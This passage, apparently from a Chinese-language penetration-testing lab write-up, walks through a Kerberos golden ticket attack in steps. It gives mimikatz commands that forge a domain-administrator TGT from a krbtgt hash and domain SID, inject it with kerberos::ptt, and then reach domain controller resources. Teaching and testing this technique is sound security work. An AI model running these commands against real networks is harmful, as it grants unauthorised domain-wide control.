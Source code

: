 **b、伪造TGT票据**

切换到普通域用户的机器Windows 7，用mimikatz 生成名为 ticket.kirbi 的 TGT 凭证，用户名为 administrator：

```cmd
# kerberos::golden /user:需要伪造的域管理员用户名 /domain:域名 /sid:域sid /krbtgt: krbtgt用户的Hash /ticket:ticket.kirbi

kerberos::golden /user:administrator /domain:secknow.com /sid:S-1-5-21-1935054445-4259798144-178899724 /krbtgt:64d453ca53d1f8fd0aa9ad1f31d9b4ef /ticket:ticket.kirbi
```

![image-20220816230026278](assets/image-20220816230026278.png)

**c、注入票据**

使用 mimikatz 将凭证ticket.kirbi 注入进去：

```cmd
#kerberos::ptt <票据文件>
kerberos::ptt ticket.kirbi
```

查看当前会话中的票据:kerberos::tgt

在注入票据前无法访问域控主机资源、注入后访问成功。

![image-20220816232826501](assets/image-20220816232826501.png)

**d、攻击成功，执行相关操作**

